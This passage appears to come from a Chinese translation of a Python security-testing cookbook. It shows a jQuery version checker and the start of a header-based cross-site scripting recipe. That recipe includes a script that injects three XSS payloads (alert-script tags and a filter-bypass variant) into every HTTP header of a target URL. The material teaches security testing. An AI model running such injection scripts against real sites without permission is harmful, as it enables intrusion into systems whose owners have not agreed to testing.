 对于每个识别的脚本，我们然后检查是否有任何`jquery.min`的提及，这将指示核心 jQuery 文件：

```py
for script in scripts:
  if "jquery.min" in str(script).lower():
```

然后我们使用正则表达式来识别版本号。在 jQuery 文件中，这将是符合给定正则表达式的第一件事。正则表达式寻找`0-9`或`a-z`后跟一个无限次数重复的句点。这是大多数版本号采用的格式，jQuery 也不例外：

```py
versions = re.findall(r'\d[0-9a-zA-Z._:-]+',url.text)
```

`re.findall`方法找到与此正则表达式匹配的所有字符串；但是，正如前面提到的，我们只想要第一个。我们用注释`[0]`来标识它。我们检查是否等于当前 jQuery 版本的硬编码值，在撰写时。这些将需要手动更新。如果该值等于当前版本中的任何一个，脚本将声明其为最新版本，否则，它将打印检测到的版本以及过期消息：

```py
if versions[0] == "2.1.1" or versions[0] == "1.12.1":
      print "Up to date"
    else:
      print "Out of date"
      print "Version detected: "+versions[0]
```

## 还有更多…

这个配方显然是可扩展的，可以通过简单地添加检测字符串和版本来应用到任何 JavaScript 库。

如果要扩展该字符串以包括其他库，比如不安全的 Django 或 flask 库，脚本将不得不进行修改，以处理它们声明的替代方式，因为它们显然不是声明为 JavaScript 库。

# 基于标头的跨站脚本

到目前为止，我们已经专注于通过 URL 和参数发送有效载荷，这是执行攻击的两种明显方法。然而，通常有许多丰富和肥沃的漏洞来源往往被忽视。其中之一将在第六章中深入介绍，*图像分析和操作*，现在我们可以先简单介绍一下。通常会记录访问网页的用户的特定标头。通过在标头中执行 XSS 攻击来执行这些日志的检查可能是一项值得的活动。

我们将创建一个脚本，向所有可用的标头提交 XSS 攻击字符串，并循环执行几种可能的 XSS 攻击。我们将提供一个简短的有效载荷列表，抓取所有标头，并依次提交它们。

## 准备工作

识别您希望测试的 URL。请参见本示例末尾的 PHP 网页，脚本可以用来测试脚本的有效性。

## 如何做…

一旦您确定了目标网页，将其作为命令行参数传递给脚本。您的脚本应该与下面的脚本中所示的相同：

```py
import requests
import sys
url = sys.argv[1]
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY  ONLOAD=alert(1)>']
headers ={}
r = requests.head(url)
for payload in payloads:
  for header in r.headers:
    headers[header] = payload
  req = requests.post(url, headers=headers)
```
